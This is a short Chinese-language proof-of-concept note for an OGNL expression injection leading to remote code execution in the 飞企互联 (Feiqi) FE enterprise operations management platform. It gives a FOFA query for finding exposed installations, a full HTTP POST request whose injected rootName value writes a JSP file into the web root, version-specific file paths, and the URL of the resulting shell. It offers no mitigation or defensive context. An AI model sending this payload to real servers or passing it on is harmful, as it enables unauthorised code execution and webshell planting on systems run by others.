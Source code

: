 ## 飞企互联Ognl表达式注入导致RCE

## fofa
```
app="飞企互联-FE企业运营管理平台"
```

## poc
```
POST /common/common_sort_tree.jsp;.js HTTP/1.1
Host: xx.xx.xx.xx
Accept-Encoding: gzip, deflate
Content-Length: 174
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0 info
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded

rootName={%25Thread.@fe.util.FileUtil@saveFileContext(new%20java.io.File("../server/default/deploy/fe.war/123.jsp"),new%20sun.misc.BASE64Decoder().decodeBuffer("d2hvYW1p"))%25}
```

## 版本文件路径
6.6
```
../web/fe.war/123.jsp
```
6.0
```
../server/default/deploy/fe.war/123.jsp
```

shell: http://xx.xx.xx.xx/123.jsp;
